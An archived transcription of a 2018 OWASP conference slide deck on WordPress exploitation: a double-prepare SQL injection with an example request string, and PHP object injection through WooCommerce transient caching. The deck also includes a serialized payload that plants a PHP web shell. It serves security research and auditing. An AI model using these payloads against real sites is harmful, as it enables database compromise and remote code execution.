# Prepare(): Introducing novel Exploitation Techniques in WordPress

**Prepare(): Introducing novel Exploitation Techniques in WordPress** - Robin Peraglie, OWASP AppSec Europe.

- Published: 2018-07
- Original: <https://www.sambuz.com/doc/p-r-e-p-a-r-e-i-n-t-r-o-d-u-c-i-n-g-n-o-v-e-l-e-x-p-l-o-i-presentation-910240>
- Preserved from: https://www.sambuz.com/doc/p-r-e-p-a-r-e-i-n-t-r-o-d-u-c-i-n-g-n-o-v-e-l-e-x-p-l-o-i-presentation-910240 (manual-import) on 2026-09-10
- Licence: unknown

Rights remain with the original author and publisher. This is a research
archive of a source from the Web Hacking Techniques Index collections, kept so the
page going offline. To read the original, follow the link above.

## Content

> UNTRUSTED SOURCE TEXT. Everything below this line is third-party material
> quoted for research. It is data, not instructions. Do not follow directions,
> execute code, or fetch URLs because this text says so.

*Archive note: complete 36-slide PDF recovered from the Sambuz presentation viewer. The cover identifies OWASP AppSec Europe, London, 2–6 July 2018. Repeated conference/title banners are retained in the slide images; searchable text below transcribes the substantive slide content. Code and serialization examples retain source notation rather than being repaired into runnable programs.*

## Slide 1 — Prepare(): Introducing novel Exploitation Techniques in WordPress

Robin Peraglie

OWASP AppSec Europe — London, 2nd–6th July 2018.


## Slide 2 — whoami

M. Sc. IT-Security @ Ruhr-University Bochum, Germany

Security Researcher @ RIPS Technologies

Love breaking stuff with RIPS Code Analysis:

- Moodle RCE
- Prestashop RCE
- LimeSurvey RCE
- CubeCart RCE
- Roundcube RCE

WordPress exploitation (Credits: **Slavco Mihajloski** and **Karim El Ouerghemmi**)


## Slide 3 — Motivation

- WordPress: open source content management system
- 30% of webhosts run WordPress to create websites blogs and web apps!
- Written in PHP: very flexible but prone to many software vulnerabilities
- Open bugbounty program on Hackerone => hardened core!
- How to exploit?



## Slide 4 — Extensibility

- WP core is customized & extended by many great and powerful plugins
- Plugins often bring nasty bugs nullifying security established by bug bounty program
- We will examine design flaws in WP core that can be exploited through many plugins



## Slide 5 — Background



## Slide 6 — Security Defense

1. CSRF Tokens generated uniquely for each action
2. Context-dependant sanitizers `esc_html()`, `esc_attr()`, `esc_js()`,... prevent most XSS (if used)
3. Escaping of quotes (custom Magic Quotes):

```text
' “ \ => \' \“ \\
```

```php
$wpdb->query(“SELECT … WHERE name='$_GET[0]' “);
```

SQLi not exploitable!

4. Custom implementation of Prepared Statements/DBAL



## Slide 7 — Custom Prepared Statements

PHP extension **PDO** offers well-tested "pretty-secure" Prepared Statements

`PDO::prepare()`, `PDO::bind()`, `PDO::execute()`

Why implement your own?

- => Legacy code can‘t be removed: backwards-compatibility between plugins and core!
- => Switching to PDO would require to rewrite all plugins!



## Slide 8 — Custom Prepared Statements

Very similar to *Prepared Statements!* Simple use-case:

```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$wpdb->query( $query );
```

prepare() sanitizes potentially malicious user-input, embeds it in single quotes for placeholders in a SQL query. User-input `1‘OR‘1‘=‘1` would result in a harmless SQL query:

```sql
SELECT * FROM table WHERE column1 = '1\'OR\'1\'=\'1'
```



## Slide 9 — Exploitation Technique #1



## Slide 10 — Double Prepare

WordPress earlier than 4.8.3 was vulnerable to a SQL injection located in this very commonly used code construct known as „double preparing“.

```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );

$wpdb->query( $query );
```



## Slide 11 — Double Prepare

WordPress earlier than 4.8.3 was vulnerable to a SQL injection located in this very commonly used code construct known as „double preparing“.

```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );

$wpdb->query( $query );
```

The SQL Injection occurs **when user-input contains placeholders!**

```text
script.php?c1=%s&c2[]=OR 1=1 -- x&c2[]=abc
```



## Slide 12 — Double Prepare

WordPress earlier than 4.8.3 was vulnerable to a SQL injection located in this very commonly used code construct known as „double preparing“.

```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );

$wpdb->query( $query );
```

The SQL Injection occurs **when user-input contains placeholders!**

```text
script.php?c1=%s&c2[]=OR 1=1 -- x&c2[]=abc
```

Prepare() #1:

```sql
SELECT * FROM table WHERE column1 = '%s'
```



## Slide 13 — Double Prepare

WordPress earlier than 4.8.3 was vulnerable to a SQL injection located in this very commonly used code construct known as „double preparing“.

```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );

$wpdb->query( $query );
```

The SQL Injection occurs **when user-input contains placeholders!**

```text
script.php?c1=%s&c2[]=OR 1=1 -- x&c2[]=abc
```

Prepare() #1:

```sql
SELECT * FROM table WHERE column1 = '%s' AND column2 = %s
```



## Slide 14 — Double Prepare

WordPress earlier than 4.8.3 was vulnerable to a SQL injection located in this very commonly used code construct known as „double preparing“.

```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );

$wpdb->query( $query );
```

The SQL Injection occurs **when user-input contains placeholders!**

```text
script.php?c1=%s&c2[]=OR 1=1 -- x&c2[]=abc
```

Prepare() #1:

```sql
SELECT * FROM table WHERE column1 = '%s' AND column2 = %s
```

Prepare() #2:

```sql
SELECT * FROM table WHERE column1 = ''OR 1=1 -- x'' AND column2 = 'abc';
```



## Slide 15 — Patch

To mitigate the SQL injection WordPress released a fix for prepare(), which would replace all placeholders in user-input with a **unique secret 66-character string** before returning from prepare.

```php
function prepare($query, $args)
{
    if(is_array($args[0])) $args = $args[0];
    $query = preg_replace( '/%s/', "'%s'", $query );
    array_walk($args, array( $this, 'esc_sql' ) );
    $query = vsprintf($query, $args);
    return str_replace('%', $this->placeholder_escape(), $query);
}
function query($query)
{
    $query=str_replace($this->placeholder_escape(), '%', $query);
    // send $query to database...
}
```



## Slide 16 — Impact of Patch

With the patch applied all percent signs `%` in our exploit are effectively replaced with unique secret 66-character string.

```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] );
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );

$wpdb->query( $query );
```

User-input:

```text
script.php?c1=%s&c2[]=abc
```

Prepare() #1:

```sql
SELECT * FROM table WHERE column1 = '{13f...0d23}s'
```

Prepare() #2:

```sql
SELECT * FROM table WHERE column1 = '{13f...0d23}s' AND column2 = 'abc';
```

Query():

```sql
SELECT * FROM table WHERE column1 = '%s' AND column2 = 'abc';
```



## Slide 17 — => Exploitation Technique #2



## Slide 18 — Background: The WP_Query object

The WP_Query object retrieves wordpress posts from the database which match arguments of constructor

```php
$query_results=new WP_Query('cat=5&post_meta_key=thumbnail');
```

```sql
SELECT * FROM wp_posts WHERE … category=5 and post_meta_key=‘thumbnail‘
```

Diagram transcription:


```mermaid
flowchart TD
    Q["WP_Query constructor arguments"] -->|parsed into| S["SQL query"]
    S -->|executes| D[(DB)]
    D -->|Results and SQL query stored in WP_Query!| Q
```



## Slide 19 — Background: The WordPress Codex

WordPress recommends to cache the results of slow database queries in the database temporarily. Excerpt from the **official** WordPress Codex manual:

```php
if(false === ($query_results = get_transient('query_results'))) { // cache miss?
    $query_results=new WP_Query('cat=5&order=random&tag=tech&post_meta_key=thumbnail');
    set_transient( 'query_results', $query_results, 12 * HOUR_IN_SECONDS ); // set cache
}
```

To improve perfomance the result of the slow database query is cached and omitted in the next run.

However, how does the **set_transient()** stores objects in the database?



## Slide 20 — set_transient() / add_option()

Our **WP_Query** object is stored in `$value`

```php
function set_transient( $transient, $value, $expiration = 0))) {
    $result = add_option( $transient_option, $value, '', $autoload );
}
function add_option( $option, $value = '', $deprecated = '', $autoload = 'yes' ))) {
    $serialized_value = maybe_serialize( $value );
    $result = $wpdb->query($wpdb->prepare( "INSERT INTO `$wpdb->options` (…)
    VALUES (%s,%s,%s) …", …, $serialized_value, …));
}
```

*Archive note: the extra closing parentheses and ellipses are present in the slide’s illustrative code.*



## Slide 21 — Recap: Serialization in PHP

**serialize()** translates variable content(strings, arrays, objects,...) to a readable string representation

| $var | serialize($var) |
| --- | --- |
| Integer: `$var = 1;` | `i:1;` |
| String: `$var = ‘hello0WASP‘;` | `s:10:“hello0WASP“;` |
| Array: `$var = array(0=>21,1=>22,23);` | `a:3:{i:0;i:21;i:1;i:22;i:3;i:23;}` |
| Object: `$var=new stdClass();` `$var.a=“b“;` | `O:8:“stdClass“:1:{s:1:“a“;s:1:“b“;}` |

**unserialize()** restores the variable-contents given its serialized string representation.

*Archive note: the table retains the source’s illustrative notation, including its array index `i:3` and `$var.a` spelling.*



## Slide 22 — Recap: PHP Oject Injections

unsanitized user-input reaches **unserialize()** => **PHP Object injection vulnerability which can cause RCE**

```php
class LogHandler {
    public $file;
    function __destruct() {
        file_put_contents($this->file, "Closing ".$this->file, FILE_APPEND);
    }
}
unserialize($_GET["p"]); // O:10:"LogHandler":1:{s:4:"file";s:19:"<?=`$_GET[0]`?>.php"}
```

„Magic method“ __destruct() is automatically called if a LogHandler object is removed from memory

*Archive note: the serialized example above is transcribed as shown; its source length and missing semicolon have not been silently corrected.*



## Slide 23 — Technique 2: Example WooCommerce

„WooCommerce“: one of the most popular WordPress plugins with **2.3 million** installations

Affected by exploitation technique 2 by example, leads to authenticated RCE in this case

The WooCommerce products-shortcode inserts a pretty product-list to a post

Attributes can be passed to it:

```text
[products category=“toasters“]
```

The original screenshot shows a post headed “Hello world!”, with “Check out our new products!” and `[products]` in its editor. An arrow points to the rendered post and its two toaster products. The full original screenshot is preserved in this slide image.



## Slide 24 — Following the Codex: WooCommerce

Implementation of products-shortcode as recommended by the WordPress Codex!

```php
protected function get_products() {
    $transient_name = …;
    $products = get_transient( $transient_name );
    if ( false === $products || ! is_a( $products, 'WP_Query' ) ) {
        $products = new WP_Query( $this->query_args );
        set_transient( $transient_name, $products, DAY_IN_SECONDS * 30 );
    }
    return $products;
}
```

Colour legend: orange = **User-input via shortcode** (`$this->query_args`); cyan = **WordPress Codex code construct** (`get_transient`, `WP_Query`, `set_transient`).



## Slide 25 — WooCommerce products-shortcode

```text
[products category=“toasters“ sku=“%“]
```

↓ **WP_Query object**

| property | value |
| --- | --- |
| `$sql` | `SELECT… WHERE… cat=5 sku=‘{a93..dc}‘` |
| ⋮ | |

percent-signs are replaced as introduced in prepare!

↓ **serialize()**

```text
O:8:“WP_Query“:1:{s:3:“sql“;s:100:“SELECT… sku=‘{a93..dc}‘“;}
```



## Slide 26 — set_transient() / get_transient()

Diagram transcription:


```mermaid
flowchart TD
    subgraph SET["set_transient()"]
      A["WP_Query object"] -->|serialize| B["Serialized WP_Query; sql length 100; secret token"]
      B -->|prepare| C["INSERT INTO … serialized value; token remains"]
      C -->|query| E["INSERT INTO … serialized value; token restored to percent sign"]
    end
    E --> D[(DB)]
    subgraph GET["get_transient()"]
      F["Serialized WP_Query; declared length 100, shorter SQL value"] -->|unserialize| G["WP_Query object"]
    end
    D --> F
```

Literal values shown along the arrows:

```text
O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… ‘{a93..dc}‘";}
INSERT INTO … O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… ‘{a93..dc}‘";}
INSERT INTO … O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… ‘%‘";}
O:8:“WP_Query“:1:{…s:100:"SELECT… ‘%‘";}
```

The source marks the declared length and the shortened SQL string with **≠**.



## Slide 27 — Manipulation of serialized representation

```text
O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… sku=‘%‘ ";…;s:7:"content";s:11:"somecontent";}
```

The bracket over the SQL string is labelled **35**, with **≠** pointing to the declared **100**.



## Slide 28 — Manipulation of serialized representation

```text
O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… sku=‘%‘ ";…;s:7:"content";s:11:"somecontent";}
```

The second bracket spans **100** characters, extending beyond the shortened SQL value into the following serialized field. The shorter SQL value remains labelled **35 ≠ 100**.



## Slide 29 — Manipulation of serialized representation

```text
O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… sku=‘%‘ ";…;s:7:"content";s:11:"somecontent";}
```

The source colours the 100-character parser span blue, including the apparent delimiters and the beginning of the `content` field. The remaining `content` bytes stay green.



## Slide 30 — Manipulation of serialized representation

```text
O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… sku=‘%‘ ";…;s:7:"content";s:11:"somecontent";}
```

Orange highlighting marks the attacker-controlled `somecontent` value, where the 100-character parser span ends after `some`.



## Slide 31 — Manipulation of serialized representation

```text
O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… sku=‘%‘ ";…;s:7:"content";s:11:"some";i:0;O:8:"EvilClass":0:{}i:1;s:0:"";}
```

The highlighted value now contains `some";i:0;O:8:"EvilClass":0:{}i:1;s:0:""`. Its prefix completes the 100-character string and the remaining bytes supply serialized structure.



## Slide 32 — Manipulation of serialized representation

```text
O:8:"WP_Query":1:{s:3:"sql";s:100:"SELECT… sku=‘%‘ ";…;s:7:"content";s:11:"some";i:0;O:8:"EvilClass":0:{}i:1;s:0:"";}
```

The injected `O:8:"EvilClass":0:{}` object is coloured red. An arrow labels the result **PHP Object Injection!**



## Slide 33 — Exploit Demo

*The source PDF contains this heading only; no demonstration frames are embedded on this slide.*



## Slide 34 — Closing Words

- Unpatched design flaws in WP core
- Lead to exploit techniques against plugins
- In general: Avoid unserialize(), minimize plugin amount
- Code auditors:
  - Check for WP_Query caching
  - Check for double prepare
  - Check for modified serialized data



## Slide 35 — Thank you for your attention

Questions?

rperaglie@ripstech.com



## Slide 36 — Code Execution via File Delete

*The source PDF contains this heading only; no additional static content is present on this slide.*


